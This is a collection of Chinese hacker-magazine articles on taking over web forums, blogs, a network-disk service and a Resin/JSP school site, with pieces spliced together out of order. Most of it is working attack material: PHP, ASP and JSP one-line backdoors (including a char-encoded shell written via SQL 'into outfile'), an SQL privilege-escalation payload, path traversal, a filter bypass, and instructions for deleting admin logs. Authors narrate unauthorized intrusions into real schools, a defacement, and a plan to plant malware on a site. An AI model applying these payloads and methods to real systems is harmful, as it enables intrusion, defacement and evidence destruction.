脚本小子：Ofstar 是非常流行的一款 PHP 论坛系统，由于其方便优良的性能得到了大家的喜爱。在上期杀飞扬发表了一个夺取 Ofstar 管理员权限的文章后，本期继续说一下怎么拿到 WebShell。

- 适合读者：脚本爱好者，入侵爱好者
- 前置知识：PHP 基础

## Ofstar 论坛得 WebShell 清除国恶全攻略

文／图 杀飞扬（liuyes）

记得在《黑防》上写了一篇《入侵 Ofstar 论坛运营气进后台》，相信大家看了会觉得不过瘾，毕竟没有得到网站的 WebShell。当时由于本人工作比较忙，所以也没有深入地研究。这几天闲了，又研究了一下，没想到还真可以得到 WebShell。现在就把过程写出来，希望对大家有所帮助。

## 进后台得 WebShell

相信大家都还记得以前的 Ofstar 论坛是怎么得到 WebShell 的吧？就是在后台的“风格模版设置”中写入如图 1 所示的代码。

然后使用本地提交工具上传 PHP 木马，就可以得到一个 WebShell。但是在最新版本中，这个方法会导致整个论坛崩溃（首页会一片空白），所以对这个方法还是慎用。下面我们来看看在最新版本中如何得到 WebShell。

我的思路很简单，既然 Ofstar 的配置文件是一个 PHP 文件（即论坛 bbsdata 目录下的 config.php 文件），那么我们把一句话 PHP 木马写入这个配置文件就可以得到一个简单的 WebShell 了。

但问题又来了，我们都知道当 PHP 配置文件中的“magic_quotes_gpc = on”时，所有的敏感字符都会被转义，比如“'”会被转义为“\'”，就是在敏感字符的前面加上反斜线“\”，这样我们的脚本就失去了本来的功能。所以只要我们能够绕过这个限制，写入的 PHP 脚本就可以执行了。好了，原理说了一大堆，下面就说说实际的操作。

首先我们登录后台（至于怎么得到管理员的密码及破解过程这里就不说了，不会的话看看上一期的杂志吧。），然后选择“论坛核心设置”。注意了，我们找一下参数是数字类型的选项有很多，大家随便选一个就行了，写入我们的一句话 PHP 木马“@eval($_POST[cmd]);”（不包括引号），如图2所示。


大家注意，在 PHP 木马语句的前面必须加一个“;”语句结束符，否则不能成功。保存成功后，我们看一下是否已经写入了。如图3所示。


呵呵，果然已经写入到文件了。接下来请出我们的客户端（文件已经打包并放入光盘了）执行一下命令看看。如图4、图5所示，也都成功了，然后我们利用它来写入一个真正的 WebShell，主要是为了操作方便，如图6所示。上传成功后会在当前目录下生成一个与上传文件名一样的文件，如图7所示。所以大家上传文件时最好不要与论坛中已存在的文件重名。

## 清除后台日志

上面我们已经得到了 WebShell，为了安全还要清除后台日志。


适合读者：入侵爱好者；程序员

前置知识：C 语言基础

## 另类“注入”我来谈

“注入”这一词眼下可算得上时髦，“大街小巷”到处都能“听”到看到。这一词曾经让无数人“闻风色变”，今天我们的话题仍是注入。不过今天我们这里的这个注入不同于以往的，它有别于通常的 SQL 注入，可以说是一种新型的。

平日里，人们在提交数据的时候都是采用页面形式，但是，今天我们这里就要打破这一传统观念。这种方法是通过自己构造 HTTP 请求报文，以程序的方式代替传统的方法，实现数据的自动提交。

后台的日志，因为在这之前你已经留下了一屁股的“痕迹”。如图8所示。


这个就简单多了，直接用 WebShell 删除后台的日志文件（即在 bbsdata 目录下的 admin_record.php 文件）就 OK 了。当然，我们还可以做得更好一点，就是把日志文件中关于自己操作的信息删除，如图9所示。


好了，到这里整个过程就结束了，如果有不明白的地方请到论坛与我讨论或者直接联系我。

在文章还未进入正题的时候，我就 HTTP 协议这个东西给大家再啰嗦两句。平日里，当我们在打开一个网站的时候，比如说 http://www.hacker.com.cn/，实际上 IE 作为一个客户端，它将向服务器发送的是如下的请求报文：

```http
GET / HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-powerpoint, application/vnd.ms-excel, application/msword, application/x-shockwave-flash, */*
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 5.0; Windows NT 5.0)
Host: www.hacker.com.cn
Connection: Keep-Alive
Cookie: ...
```

从以上的报文中，我们可以看到很多字段，不过其中有很多并不是必须的，如果我们自己编程，只关心必要的就行了。在 HTTP/1.1 协议中规定了最小请求消息由方法字段（GET/POST/HEAD）和主机字段（HOST）构成。如上面的：

```http
GET / HTTP/1.1
HOST: www.hacker.com.cn
```

但在 HTTP/1.0 中，HOST 字段并不是必须的。至于这里为什么不能省，继续往下看。

GET 和 POST 是浏览器向服务器提交报文通常所采用的两种方法。服务器在收到报文之后，解码分析出所需的数据并进行处理，最后返回结果。通常我们可以看到的都是像 http://***.***.***.***/list.asp?id=*** 这样的 URL 请求，我们可以自己构造如下的报文来完成。

```http
GET /list.asp?id=*** HTTP/1.1
HOST: **********
```

由于受 URL 长度 1024 的限制，所以 GET 方法通常是用在提交一些小数据的情况下。如果数据比较大就只能采用 POST 方法。在讲解 POST 方法的一些要点之前，大家还是先来看一段 POST 请求报文。

```http
POST /huage/add.php HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-powerpoint, application/vnd.ms-excel, application/...
msword; application/x-shockwave-flash, */*
Referer: http://202.147.125.36/huace/add.php
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)
Host: 202.147.125.36
Content-Length: 115
Connection: Keep-Alive

name=test&email=&comefrom=&homepage=&icq=&oicq=&image=say.gif&comment=test&password=&doadd=%B7%A2%CB%CD%C1%F4%D1%D4
```

与 GET 方法相比，在字段下面多了一段内容，这就是我们提交的数据。如果有中文须经过 urlencode 编码。同样让我们省去不必要的字段，构造一个最小的 POST 请求。

```http
POST /huace/add.php HTTP/1.1
Host: 202.147.125.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 115

name=test&email=&comefrom=&homepage=&icq=&oicq=&image=say.gif&comment=test&password=&doadd=%B7%A2%CB%CD%C1%F4%D1%D4
```

上面的 Content-Type 字段表示为 POST 表单型的，Content-Length 当然就是表示实体数据的长度了，这里都不能少，不然就无法正确接收了。这样，服务器端处理页面就会收到提交的数据，并接收处理，如果是向数据库里写东西，就会出问题了。

上面不知不觉讲了一大堆关于客户端的东西，接下来看看服务器方面。当报文数据到达服务器后，服务器底层进程进行接收并放入特定的缓冲区，同时置一些环境变量，如“CONTENT_LENGTH”、“QUERY_STRING”等。当然这期间还是屏蔽了一些底层细节的，如客户端提交的数据是怎么被重定向到被请求页的标准输入的，在此我们就不做过多的考虑。之后高层应用程序如 CGI、ASP、PHP 等对其进行数据提取，其中 CGI 还须自己进行 Unencode 解码和字符串提取。假如向一个 ASP 程序提交数据，我提交了 name 和 body 字段，且采用 POST 表单方式提交，在 ASP 程序中应如下进行接收：

```asp
name=request.form("name")
body=request.form("body")
```

并添加到数据库中：

```asp
rs.addnew
rs("name")=name
rs("body")=body
rs.update
```

到此，该讲的也基本上讲完了，同时这里我们还要注意一点，就是我们在发送报文时，“name=value”URLencode 编码这个东西不能少，如果没有它，我们在向数据库写东西的时候有可能就会失败。同时我们在这里还要注意一个问题，当编译器处理的是中文字符时，它会自动根据字符的位数来读入一个或两个字符，这时可以强制采用 unsigned char * 来读入一个字符。

```c
int isT(char ch)
{
    if(ch==' '||ch=='%'||ch=='/'||ch&0x80) return 1;
    else return 0;
}

int encode(char *s,char *d)
{
    if(!s||!d) return 0;
    for(;*s!=0;s++)
    {
        unsigned char *p=(unsigned char*)s;
        if(*p==' ')
        {
            *d='%';
            *(d+1)='2';
            *(d+2)='0';
            d+=3;
        }
        else if(isT(*p))
        {
            char a[3];
            *d='%';
            sprintf(a,"%02x",*p);
            *(d+1)=a[0];
            *(d+2)=a[1];
            d+=3;
        }
        else
        {
            *d=*p;
            d++;
        }
    }
    *d=0;
    return 1;
}

/* Unencode URL解码函数 */
int unencode(char *s,char *d)
{
    if(!s||!d) return 0;
    for(;*s!=0;s++)
    {
        if(*s=='+')
        {
            *d=' ';
            d++;
        }
        else if(*s=='%')
        {
            int code;
            if(sscanf(s+1,"%02x",&code)!=1) code='?';
            *d=code;
            s+=2;
            d++;
        }
        else
        {
            *d=*s;
            d++;
        }
    }
    *d=0;
    return 1;
}

/* booksend.cpp */
```

适合读者：脚本爱好者，入侵爱好者

前置知识：SQL 注入基础

## 防注入程序不防注入


文／图 网络痴迷

一个同学在 QQ 给我发了一个他们学校的网址，问我可不可以拿个 WebShell 给他。说真的，我打开一看其实是没有什么信心的，原因是网站的首页是 php 的，我对 php 不是很熟悉，其次这样的名校网络安全做的应该是相当到位吧。那我就直接从二级网站入手，这样的话可能性应该会大一些。

功夫不负有心人，我终于找到了这个学校的科技处网站是 ASP 做的，有可能存在漏洞。随手在调用数据库的地方试了下，果然存在着 SQL 漏洞。拿出 NBSI2 来一扫，才发现连接数据库的权限竟然是 SA，xp_log70.dll 也没删除，还可以执行 DOS 命令，简直是太顺利了，好久都没有这么好的运气了。既然同学要个 WebShell 我就给他“弄”个先，听说的是 ftp 上传失败，那我就用冰狐浪子的一句话后门，然后再写个木马进去。用 NBSI2 找到网站所在的目录，再在 NBSI2 的 DOS 命令下执行：`echo ^<SCRIPT RUNAT=SERVER LANGUAGE=JAVASCRIPT^>eval^(Request.form^("#"^)+""^) ^</SCRIPT^>>D:\kjc\1.asp` 把这句话写到网站的一个目录下，用客户端连接却没有任何的反应。又把 1.asp 变成 1.txt 访问看一下，代码完全正确，怎么就是连接不上呢？不明白。最后我决定从网站的上传里传个 asp 木马上去，不过上传的时候是需要密码的，我都试了网站的整个数据库就是没有找到密码。最后我在 NBSI2 的命令行把上传文件的页面 copy 了一份后缀名改 txt，然后访问。找到上传的时候要调用的文件，其中有一个 user.asp，用同样的方法 copy 了一份 user.asp 为 txt 文件访问。发布文件和信息的所有密码全都在里面，看看能不能传 ASP。很幸运什么都没有过滤，成功地得到了一个 WebShell。进去一看还有 PcAnywhere，下载了 cif 文件发现版本也不是最新的，得到 PcAnywhere 管理员的用户名和密码。

这里想说下很多网站的 Web 服务器喜欢用 PcAnywhere 来管理，很多都是老版本并且权限设置得不好。攻击者一旦得到了 WebShell，就得到 PcAnywhere 的用户名和密码的可能，从而控制整个服务器。我的建议是 PcAnywhere 换成 11.0，经过测试这个版本的 cif 文件的管理员名字和密码已经不能用旧工具读取出来了（黑防 VIP 系统中收录了新的 PcAnywhere 密码文档破解工具），还有个优点是支持 SecurID 双重认证了。使用 SecurID 双重认证可以完全不用限制 IP，对方即使知道 PcAnywhere 的用户名和密码也无法进行连接。有种说法是装了 PcAnywhere 就不可以用 3389 了，没有测试。

只可惜主页服务器和这个服务器是分开的，还在不同的网段上，删除了我 copy 的 txt 文件后，直接把 WebShell 发给了同学，并告诉他入侵经过，他问我有没有留下别的后门，我说没有。

事情到这儿就应该结束了，没有想到的是过了很久时间之后，我在 QQ 上又遇见了那个同学。他说已经把漏洞给堵上了，还说你不是很嚣张的吗？不是学计算机的吗？再给我搞个 WebShell 看看，然后发出了一串夸张的 QQ 笑容表情。天啦，我说你把漏洞都补上了我没有那个本事。他说你要是可以做到我这下就真的服了你了，再给你几个 MM 的 QQ 号（事后才发现完全是一场骗局，55555）。这下我的动力来了，我首先想到是我以前留下的上传密码，却郁闷地发现给删了。PcAnywhere 倒是可以使用，不过服务器是锁定的状态。打开那个站点看看，发现以前能够注入的地方全给过滤了。如图1所示。

就在我快要放弃的时候，我突然想起这个防注入脚本弹出的警告框怎么那么熟悉呢？好像是枫叶什么的。我以前研究过这个通用防注入脚本，因为它过滤得不是很好。如果要是用的这个系统的话，就可以得到 WebShell 了。把 ID 换成 `%69%64` 用 HDSI 一扫，如图2所示。

没有想到真的是这个防注入脚本，只是把弹出的文字内容简单地修改了下，接下来的事情就不用说了。下面我给出加了注释的防注入脚本的代码：


```asp
<%
Dim Fy_Url, Fy_a, Fy_x, Fy_CS(9), Fy_Cl, Fy_Ts, Fy_Zx
' —— 定义部分头 ——
' Fy_Cl：处理方式；1=提示信息；2=转向页面；3=先提示再转向
%>
```

## 脚本攻防

SCRIPT ATTACK&DEFENCE

```asp
Fy_Zx = "Error.Asp"  '出错时转向的页面
On Error Resume Next
Fy_Url=Request.ServerVariables("QUERY_STRING")
'得到客户端提交的字符串
Fy_a=split(Fy_Url,"&")
'用&号把每一对的name/value给分开
redim Fy_Cs(ubound(Fy_a))
' LBound()取数组的下标，UBound()取数组的上标
On Error Resume Next
for Fy_x=0 to ubound(Fy_a)
Fy_Cs(Fy_x) = left(Fy_a(Fy_x),instr(Fy_a(Fy_x),"=")-1)
'取=号左边的name的值
Next
'以下是检查每个value的值是否含有害的字符
For Fy_x=0 to ubound(Fy_Cs)
  If Fy_Cs(Fy_x)<>"" Then
    if instr(LCase(Request(Fy_Cs(Fy_x))),"'")<>0 or instr(LCase(Request(Fy_Cs(Fy_x))),"and")<>0 or ... Then
      Select Case Fy_Cl
      Case "1"
        Response.Write "<Script Language=JavaScript>alert('...')</Script>"
      Case "2"
        Response.Write "<Script Language=JavaScript>location.href='"&Fy_Zx&"'</Script>"
      Case "3"
        Response.Write "<Script Language=JavaScript>alert('...')</Script>"
      End Select
    End If
  End If
Next
```

```asp
</Script>
End Select
Response.End
End if
End If
Next
%>
```

我以前看到的文章名字叫做《URL编码与SQL注射》，从文章内容看是 lake2 发现的。这里为了便于理解我偷个懒引用那篇文章的一段话：思路就是先获得提交的数据，以“&”为分界获得并处理 name/value 组，然后判断 value 里是否含有定义的关键字（这里为求简便，我只留下了“and”），有之，则为注射。乍一看去，value 被检查了，似乎没有问题。那和 value 对应的可是 name 呢？值来自于 Request.ServerVariables("QUERY_STRING")，大家都知道，在 ASP 中 Request.ServerVariables("QUERY_STRING") 是得到客户端提交的字符串，这里并不会自动转换 URL 编码……

如果我们把 name 进行 URL 编码再提交的话，那就可以绕过检查了。比如参数是 ph4nt0m=lake2 and 1is0，此时程序能够检测到。如果提交 %50h4nt0m=lake2 and 1is0（对 p 进行 URL 编码），程序就会去判断 %50h4nt0m 的值，而 %50h4nt0m 会被转换为 ph4nt0m，所以 name 值为空，于是就绕过了检测。为什么 name 不解码可以绕过检查，而 value 就不能绕过呢？因为 value 的值取自 Request(Fy_Cs(Fy_x))，服务器就会对其解码。

程序怎么改进呢？只要得到客户端提交的数据是解码后的就可以了，把得到 name 的语句改为 `For Each SubmitName In Request.QueryString` 就可以了。

其实我觉得把这个防注入脚本伪装下做个这样的后门不错。一般人应该不会注意这个吧，我够阴险吧，我有智慧，呵呵。

事后我在百度和 Google 搜索了下，发现网上有 n 多个提供下载这个防注入脚本，有的黑客教程也教用这个来防止 SQL 注入。各位站长可要小心了啊，用这个防注入脚本的时候一定也记得修改，不然的话和没有是一样的。

适合读者：入侵爱好者，脚本爱好者  
前置知识：ASP 基础

## L-BLOG

再现提权漏洞


文/图 王崇凡

各位朋友是否还记得盗帅下载程序的提权漏洞？这次偶所找到的 L-BLOG 提权漏洞就同出一辙，Do You Know？听偶慢慢道来！

### 代码分析

俗话说，授人以鱼，不如授人以渔。为了让各位朋友以后都能找到此类漏洞，还是先来看一些 L-BLOG 的源码吧。从 Member.asp 中看起，其中修改用户资料的部分代码如下：

```asp
<%IF Request.QueryString("action")="edit" AND memName<>Empty Then%>
  <%IF Request.QueryString("edit")="post" Then%>
    Conn.ExeCute("UPDATE blog_Member SET ...")
```

```asp
mem_Sex='&CheckStr(Request.Form("mem_Sex"))&',
mem_Email='&CheckStr(Request.Form("mem_Email"))&',
mem_HideEmail='&mem_HideEmail&',mem_QQ='&CheckStr(Request.Form("mem_QQ"))&',
mem_HomePage='&CheckStr(Request.Form("mem_HomePage"))&',
mem_Intro='&CheckStr(Request.Form("mem_Intro"))&'"&SQL_Add&" WHERE memName='"&memName&"'"
...
SQLQueryNums=SQLQueryNums+1
Response.Write("<br><b><center><b>更新资料成功</b> ...")
```

在更新用户资料时，用到的是 SQL 中的 UPDATE 语句，这种更新方式和盗帅下载中的用户资料更新方式是一样的……下面就来分析其过滤所用到的 CheckStr 函数。

```asp
Function CheckStr(ByVal ChkStr)
  Dim Str,Str_ChkStr
  Str=Trim(Str)
  Str=re.Replace(Str,"$1$|$|")
  Set re=Nothing
  Str = Replace(Str,"'","''")
  Str = Replace(Str,"select","sel&#101;ct")
End Function
```

我省去了一些多余的代码，主要是为了让大家看清楚 CheckStr 函数是对单引号做了过滤的……其中性别的更新语句是：`mem_Sex='&CheckStr(Request.Form("mem_Sex"))&'`，没有用单引号围住，导致提权漏洞浮出水面。

## 实战 v1.08 版

在百度中搜索“Powered by L-Blog V1.08 (SE) Final”，选择测试站点……先注册用户，成功后返回用户中心，如图1所示。


在“编辑个人资料”页面中右键查看源文件，另存为 q.txt；将 `form action="member.asp?action=edit&edit=post"` 改为绝对路径……并将性别单选改为文本框，输入构造字符串。

将原代码中的性别字段（radio）改为文本输入框，并把 q.txt 改为 q.htm 后双击打开，在性别框输入：`0,mem_Status='SupAdmin'`，如图2所示。


其中 `mem_Status` 的值 `SupAdmin` 是管理员权限的特征字符串（普通用户为 `Member`）。提交后重新登录查看用户中心，如图3。


是不是多了“发表日志”“系统管理”两个选项……几分钟即可从普通身份变成管理员。

## 实战 v1.10 版

在 L-BLOG 官方站点看到推出了 v1.10 版。测试中发现通过本地 HTML 提交个人资料会返回“禁止从站点外部提交数据”之类提示，说明加入了路径限制。

既然 HTML 方式受限，则改用 NC/抓包方式提交。通过 WinSock 监听“编辑个人资料”提交请求并观察 POST 数据。

```http
POST /y_blog/member.asp?action=edit&edit=post HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, ...
Referer: http://www.****.com/y_blog/member.asp
...
```

```http
action=edit
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: www.*****.com
Content-Length: 163
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ...

mem_OldPassword=147258&mem_NewPassword=&mem_RePassword=&mem_Sex=0&mem_Email=...&Submit=...
```


### 修补方法

将这些数据保存在一个名为 tq.txt 的文件中，修改其中的 `mem_Sex` 值为 `0,mem_Status='SupAdmin'`，并调整 `Content-Length`。随后使用 nc.exe 发送请求，返回乱码后重新登录，在用户中心看到身份已变为管理员（如图4、图5）。

因为 e-blog 的易用性，存在大量使用者。文中指出 v1.08 与 v1.10 版本可通过构造提交内容触发问题。修补方式是在 `member.asp` 的 UPDATE 语句中为 `mem_Sex` 增加字符串限制（加单引号并校验），从而避免注入利用。

- 适合读者：入侵爱好者，免费爱好者
- 前置知识：无

## 桃源网络硬盘脚本

### 第三个漏洞

近期对桃源网络硬盘多个版本进行测试，历史漏洞（如上传、编辑任意文件等）多数已修复，但目录跳转问题仍可利用，并可进一步获得 WebShell。随后给出复现步骤与说明。

### 目录跳转漏洞

首先注册或使用现有 ID，在新建文件夹时通过特殊路径构造（如 `..` 与转义字符 `%2e%2e%2f`）可成功建立并跳转到目标目录。文中继续说明了通过界面操作查看创建目录路径的方法。


进入刚建立的文件夹就清楚了，如图2所示。


图2中可以清楚看到文件夹路径为 `http://www.1disk.cn/contentPane.aspx?Path=/%2e%2e%2f`。Path 路径后面的转义符其实就是“../”的意思，本来建立的目录文件夹是在用户后面的，现在路径进行目录跳转，转到网盘的 MYFILE 目录下了，在这里可是网盘所有用户注册时建立的文件夹。现在目录跳转漏洞存在了，就不用再去建立文件夹名进行目录查看了。换种方法就是说在“Path=/../../....\...”后面可以直接跳转查看硬盘上所有文件了。如图3所示。


利用 Path 目录跳转就能对网站服务器所有分区的文件进行浏览、删除、改名了，只是不能编辑。

### 文件复制法

上面说了如何利用目录跳转对服务器的所有文件进行修改、改名、删除，现在就给大家说说如何得到该网站的 WebShell 吧。其实有朋友看到上面就会想到，可以利用目录跳转到网盘目录的文件，对 ASP 文件进行编辑不就行了？没错，是可以的，但是我在官方测试时就不行，老是提示出错，应该是目录权限不够吧，所以就想到了文件复制到指定的目录，再进行编辑。如图4所示。

将 Path 路径跳转到网盘的目录下 WebDisk，将其中一个文件进行复制操作。如图4所示。


如图4所示，我选用了文件名为 `about.aspx` 的文件进行复制，然后到了我刚才注册 ID 时建立的文件夹，粘贴该文件。如图5所示。

为了方便好记，我将文件名改成 1860.aspx 了。然后点击该文件进行编辑。我选用了 swords[EST] 开发的一个 ASPX 后门，在编辑对话框中粘贴了代码。然后点击保存，如图6、图7所示。


文件保存成功后，已经完全得到网盘的 WebShell 了。因为刚才是在 WebDisk 目录下对 about.aspx 进行复制，到我建立的文件夹后再进行粘贴，文件虽然保存成功，但是路径在我的目录下，所以说要换回网站的路径才能访问；如果直接在账号下访问会提示文件下载。换回路径后，木马就在网盘的 MyFile 目录下了。如图8所示。

**脚本小子**：大家经常听到 IIS、Apache、TOMCAT 等服务器组件的名字，有的人甚至认为这三种就已经是所有服务的代名词。可实际上，放开 UNIX/Linux 世界无尽的 DIY 精神不说，有很多非主流网站服务器在世界各个大型超大型公司默默运行着，就拿 Google 来说，他们用的就是很少人听说过的 GWS。今天，Kevin 遇到的这个 Resin 又是个什么东西呢？这个 JSP 站点的入侵过程就送给大家。

- 适合读者：入侵爱好者，网站管理员
- 前置知识：SQL 注入基础

## Resin 入侵之旅

文／图 kevin1986 [S4T]

因为在高中的成绩很糟糕，所以每一个像我这样的学生都在为一个可以继续深造的学校奔波操劳。我有一个很要好的同学去了江西某软件公司的学院里读书，去的时候信誓旦旦地说一定要学成归来，可惜不到两个月，就牢骚满地。于是他给我打电话，叫我去弄弄他们学校的站点，给出点气。其实，我很久不搞入侵、渗透之类的事情，只是觉得这个学校以前也来骗过我，一时气急，操起 IE 就上路了。

打开 IE 一看我就傻眼了，清一色的 JSP 脚本。JSP 我不是很熟悉，所以也没找到太好的思路，还是先看看 Web 服务器的版本吧。随便在站点中输入一个不存在的文件名，返回了 Resin 字样。哇，这样的 Web 服务器不多见。起码比起漫天飞舞的 IIS 和 Apache 要少多了，我对这个服务器也不熟悉，怎么办？凉拌呗，继续从 Web 上找漏洞。

朋友给我的是校园网内部的 Blog 程序，只有登录页面，而且需要他们学校的学号。我没办法登录，只能靠这个登录页面来想办法。先试一下常用的 `' or ''='` 吧……返回失败。似乎脚本那里做了限制，再看看能不能爆出错误。

一般来说，JSP 脚本连接的无非就是 Oracle 和 MySQL，SQL 语句在组合的时候不注意的话会出现 N 多错误的。而类似 Apache 这种 Web 服务器总是很喜欢把详细的信息报告给浏览器，从而让在浏览器前面的我们获取很多关于服务器的详细信息。那么我就在登录处制造一些可能的错误好了。

我直接在用户名后面加一个单引号，希望服务器没有过滤，可以让这个单引号破坏 SQL 语句的组合结构。在经过漫长而又短暂的等待之后，Resin 返回了一个 500 错误。似乎正如预料中的，很顺利，服务器返回了一个 java.sql 错误，一看是 MySQL 的数据库，如图1所示。


包括当前出错的 SQL 语法。再一看，错误信息返回了当前脚本的路径 `D:\Resin\Doc\***\chklogin.JSP`，还有连接的数据库文件的地址。这样一来，我就了解了许多关于服务器的信息。

其实 MySQL 的功能还不算太强大，听说下一个版本的 MySQL 支持存储过程和多语句，的确是很让人期待的。但是目前这个版本不行，所以最多也就 Union 两下，通过一些内置的函数获取更多有关服务器的内容。


路径为 `http://www.1disk.cn/myfile/1860/1860/1860.aspx`。几分钟就可以在网盘上留一个 WebShell 了。

上面所说的漏洞存在的版本为 V2.6。其实在第一个目录跳转的权限是可以对服务器的文件进行删除或者改名的权限，也就是说在用户目录下完全可以将网盘的根目录全部删除，这对服务器造成极大的损害，请大家慎用操作，后果自负。

还是先来注射一下吧，在用户名那里输入 `kevin' and 1=2 union select 1,2,3,4#`，其他地方随便写。本以为服务器会报错，可奇怪的是，居然进去了。怎么会这样呢？原来是脚本里判断是不是存在提交的数据，当我们否定了前一个查询转而猜测字段数，那么如果字段数符合的话，就说明存在这个数据了。然后我们就获得一个 Session，同时进入了内部网，就这么简单。

虽然进入了内部，但也只是打开了大门而已。我朋友的意思是叫我改一下它的页面。那么就直接在内部网络转一转吧。


图4

似乎 MySQL 到目前为止也没给我们多少语句执行的功能，所以通过修改数据库或 Update 数据库的梦想宣告破灭。至少目前为止我还是没有管理员权限，而且表名这些又很难猜解。不过从开始我们可以很明确地得出结论，在这个网络中的 JSP，应该都存在着无数的 Injection 漏洞，随便拉一个 URL 过来，让程序出错一下，然后取关键字 java.sql 放到我自己写的 KevinSI 中的字段，结果得到查询中一共存在着 8 个字段，如图2所示。


图2

然后通过数据爆 MySQL 版本、当前数据库和当前用户，得到一堆信息。最为可贵的是，在 jdbc 中连接的 MySQL 用户居然是 Root，这就爽多了，如果权限没有很好的设置，我们可以做到读取任意文件。那我就试一下读最为关键的 boot.ini 和 my.ini 吧。

从 boot.ini 中，我们了解到服务器是 Windows XP 的（真神奇，用 XP 做服务器的人都有），安装位置在 `C:\Windows`，如图3所示。

由此推出，my.ini 的位置在 `C:\Windows\my.ini`，读出 my.ini 的内容，不出所料得到了 MySQL 的 Root 密码，如图4所示。


图3

那么顺水推舟，看看 MySQL 是不是可以远程连接。结果却很让人沮丧，虽然可以连接，但是 MySQL 提示连接失败。要么是密码错误，要么是只允许特殊 IP。因为当时查看连接用户的时候，显示的是 root@127.0.0.1，似乎只有 127.0.0.1 连接才是正确的。不管它，既然 MySQL 下不了手，我就干脆直接从 Web 上搞好了。

在这里纠正许多新手对于 MySQL 注入的误解。很多新手都觉得很多 PHP 的站点 + MySQL 比较容易入侵，而 MySQL 在 PHP 上的注入总是受到 PHP 的 Magic_Quote_Gpc 影响。虽然有风声透露这个限制已经被某牛人突破了，但是类似我等菜鸟，要知道这种技术要等到猴年马月啊。要是不受到 GPC 的影响，MySQL Injection 的威力是很强大的。

正巧，说到 GPC，那个东西只存在于 PHP 里。而我们这边渗透的机器是 JSP 的，也就是说，我们根本不用在意 GPC 这类繁杂东西的影响，所以呢，将计就计，把那套 MySQL 的技巧全部用到这次入侵演练中来……我们知道，MySQL 其实有个导出查询结果的语句，结构为：`select 1,2,3,4,5,6,7,8 from table into outfile 'path'`，这句语句的意思就是将 `select 1,2,3,4,5,6,7,8` 这个查询的结果输出到 path 中去，也就是我们希望的文件……那么我们何尝不导入一个 WebShell 呢？

大家不要想着 ASP/PHP 这些 WebShell，因为 Resin 压根就不认这些东西，所以我们还是乖乖地去找 JSP 的 Shell 吧。从 SuperHei 那里要了一段 JSP 的代码，仅仅是用 Runtime 执行命令，感觉不错，就直接 select 进文件吧，因为先前我们已经知道 WebShell 的目录了。

```sql
and 1=2 union Select char(60,37,64,32,112,97,103,101,32,105,109,112,111,114,116,61,34,106,97,118,97,46,105,111,46,42,34,37,62,60,37,80,114,111,99,101,115,115,32,97,61,82,117,110,116,105,109,101,46,103,101,116,82,117,110,116,105,109,101,40,41,46,101,120,101,99,40,114,101,113,117,101,115,116,46,103,101,116,80,97,114,97,109,101,116,101,114,40,34,99,34,41,41,59,105,110,116,32,98,59,119,104,105,108,101,40,40,98,61,97,46,103,101,116,73,110,112,117,116,83,116,114,101,97,109,40,41,46,114,101,97,100,40,41,41,32,33,61,32,45,49,41,32,111,117,116,46,112,114,105,110,116,40,40,99,104,97,114,41,98,41,59,37,62),2,3,4,5,6,7,8 from .mysql.user into outfile 'd:\\resin\\doc\\kevin1986.JSP'
```

成功率提高一些。

结果我成功地得到了一个 JSPShell，于是直接在 IE 里执行系统命令：`http://www.xxxx.edu.com/xxxx/kevin1986.JSP?c=cmd.exe/c ver`，果然返回了系统执行命令以后的内容，如图5所示。

| Kevin1986's... | 跳板幻境 | http://218... |
|---|---|---|
| 1 2 Microsoft Windows XP [版本 5.1.2600] ... |  |  |

图5

这样一来我就很轻松了，可以执行任意的命令。因为我们知道，Resin 是以服务启动的，也就是说我们当前 Shell 的环境直接是从 LocalSystem 级别里继承下来的，所以可以轻松地抛开权限。至于怎么做，那就是以后的事情了。我最终进了终端服务器，然后大致地浏览了一下，做了个假的被黑页面让朋友高兴一下（我好像很坏的样子），然后就删账号走人了。

这次渗透没什么技术含量，只不过是将许久不用的 MySQL Injection 知识拿出来运用了一下，希望大家别去攻击类似的站点，而是去了解一下常用的渗透手法，这会让我们在安全道路上积累更多经验，而不是罪恶的快感。

## 脚本小子：用 Serv-U 获取管理员权限

用 Serv-U 获取管理员权限是个很常见的事情，但是在 Windows 平台上我们很容易遇到“拒绝执行”这个问题，用 wofeiwo 的 PHP 提权工具是不错的选择，可是机器不支持 PHP 怎么办？黑客，不可能完成的任务，就是我们的任务，用 Perl 写个程序搞定它。

- 适合读者：入侵爱好者，网站管理员
- 前置知识：C/Perl 语言基础

## 巧用 Perl 完成 Windows 2003 提权

文/图 Andyower 天使娃娃


好久没有写点什么，一直没有时间，现在想想，也应该做点什么了。翻开一个音乐网站，突然有种想在上面挂马的冲动！

老规矩，开扫描器，一顿狂扫，同时开旁注工具，因为对方用的是齐鲁，顺便看一下有没有存在 User-Agent 过滤不严格的注入漏洞。

使用玄斌[B.C.T]写的漏洞利用工具，经过一番测试，漏洞已经打上了补丁。这也不意外，毕竟像这样的音乐站点，很多人都会流口水，有漏洞的话早就轮不到偶了。旁注的结果和扫描的结果也出来了。很典型的虚拟主机，300 多个域名，开放 FTP、80、3389 端口，FTP 用的是 Serv-U 5.0，很好的开端呢。不怕别人笑话，偶基本上提升权限都是靠 Serv-U 完成的，本地溢出我还真的很少成功过。随着 Windows 2003 系统的逐渐增多，虚拟主机管理员也越来越精明了，那个 Windows 自带的升级程序，就永无止境地开着，出了新的溢出漏洞，Exp 都还没出来，补丁就打上了，真的让人很无奈。相比之下，Windows 2000 还好一些，起码偶溢出成功过，Windows 2003 本地溢出成功率，在我的记忆中是 0……

为了平衡一下偶浪费的那么多字数，拿到旁注主机的 WebShell 过程偶就不写了，要不然还真的很有可能只剩下 999 个字了……这个时候我只能安静地对一个人说，天使娃娃，上，旁注的 WebShell 就看你的了。

